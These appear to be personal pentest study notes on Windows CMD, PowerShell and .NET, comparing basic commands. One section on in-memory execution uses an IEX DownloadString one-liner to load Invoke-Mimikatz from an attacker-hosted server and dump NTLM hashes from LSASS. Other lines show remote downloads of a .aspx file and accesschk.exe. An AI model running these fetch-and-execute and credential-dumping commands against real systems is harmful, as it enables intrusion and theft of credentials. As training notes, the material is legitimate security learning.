

## concept of Windows

### CMD(Command prompt)
- CLI/Shell 

### Powershell
- 2006
- CLI 
- accessible to .NET framework
- more functions to do pentest than CMD

### Windows Terminal
- not new shell, 
  different shell emulator(cmd, powershell, Azure shell, bash(!))
- it's gonna be used much in the future
  - supported over 20H1(19041)


### .NET
- windows development flatform
  - runtime (code execution in final phase)
  - groups of programming languages 
  - libraries
  - dev tools 
- I can do programing or data transfer 
- Web-cloud-mobile all connected
  - you can do anything in Windows with .NET 
  - Developer use much, attacker too


### Commands
- cmdlet(Commandlet) : powershell basic command
  - format : <verb>-<noun>
    - Get-Content : get in linux
    - Get-Help : --help
  - but Alias for linux users to simplify
    - Get-Alias cat 
      - Get-Content = cat
  

### powershell script(.ps1, .psd, .psm, etc.)
- in-memory execution
  - no need to download file
  - get code(.ps1) from another server hosting and load in Powershell.exe's memory 
    - and then use functions in .ps1
- Fileless code possible


### Powershell vs CMD  
- the difference of commands 
xfreerdp /u:Administrator /p:'Password123!' /v:172.31.161.40 /dynamic-resolution
  - Run both as Administrator
```
#### Powershell
1.
Get-Help ls
Get-Help -Detailed ls 
Get-Help -Examples ls 
  - some commands don't have examples 
2. clear
3. cat 
  - alias : Get-Content
4. pwd
5. ls
- they shows file permissions 
  ls -Force : hidden files
6. echo "Hello Jimmy"
7. Get-Process(ps)
  - Get-Process | Where-Object{$_.ProcessName -eq "svchost"}
    - $_. means resursive
    - SI : session ID 
8. head/tail
  cat -First 2 username.txt
  -Last : tail
9. mv, cp, rm

#### CMD
1. dir /?
2. cls
3. type 
4. cd
5. dir
  dir /s : tree recursively
  dir /a:h : hidden files
  or dir /a
    attributes:hiddenfile
6. echo Hello Jimmy
  - no need to "" cause it contains ""
9. move, copy, del

#### same
- upper case doesn't matter in Windows

hostname 
  - this is binary : C:\Windows\system32\HOSTNAME.exe

whoami

systeminfo
    
mkdir
```


## In-Memory Execution
```
KALI
wget https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1
python3 -m http.server 80

PS
IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.129/Invoke-Mimikatz.ps1')
```
- means 
  - IEX: InvokeExpression - I'm gonan execute ()
  - I'm gonna create New object - webclient object in .NET
  - download string from outside and load to memory
- from now on, I can use functions in .ps1 
- Invoke-Mimikatz -DumpCreds
  - you can get all local users's NT hashed password(NTLM) out of LSASS 
    - it seems like MD5 (hash-identifier results's too)
  - DPAI too?
  
- function name is usally same with script name
  - when you look at powershell script's source code
```ps1
function Invoke-Mimikatz{
...
# Param
[CmdletBinding(DefaultParameterSetName="DumpCreds")]
Param(
    [Parameter(PrameterSetName = "DumpCreds", Position = 1)]
    [Switch]
    $DumpCreds,
    
    ...
)

# you can give $PEBytes param, etc.
$RemoteScriptBlock = {
  [CmdletBinding()]
  Param(
    [Parameter(Position = 0, Mandatory = $true)]
    [String]
    $PEBytes64, 

    ..
  )
}
}

```

- Get-help Invoke-Mimikatz 
  - -Detailed
  - -Examples
    - against local computer or two remote computers, etc.
   
===================
# Commands
## in powershell
```
ls -Force : hidden file
```

```
- head  
cat -First 5 username.txt
Get-Service | select -First 10
```

```
Get-Service | Where-Object {$_.name -eq "ALG"}
```

- grep
```
| Select-String passw
or
| Select-String -Pattern 'passw'


get-service | Where-Object {$_.Name -match "abyss"} 
: contains abyss 
get-service | Where-Object {$_.Name -notmatch "abyss"}
: exclude
```

- wget
```
wget(alias : invoke-webrequest) http://10.8.0.129/accesschk.exe -OutFile C:\Users\minseok.kim\Documents\accesschk.exe
  -outfile : need to put full path 
```

- tree
```
tree /F
```


## CMD
```
dir /s FILENAME : search file
```



- if you're not allowed execute .\.ps1 directly(error), download from internet and execute with invoke expression with `-nop`  
```powershell
powershell -nop -c "iex(new-object new.webclient).Downloadstring('http://')"
-nop : no load profile
```

 
- cmd can't execute wget, so load powershell first
```
powershell wget http:// -outfile .\test.aspx
```

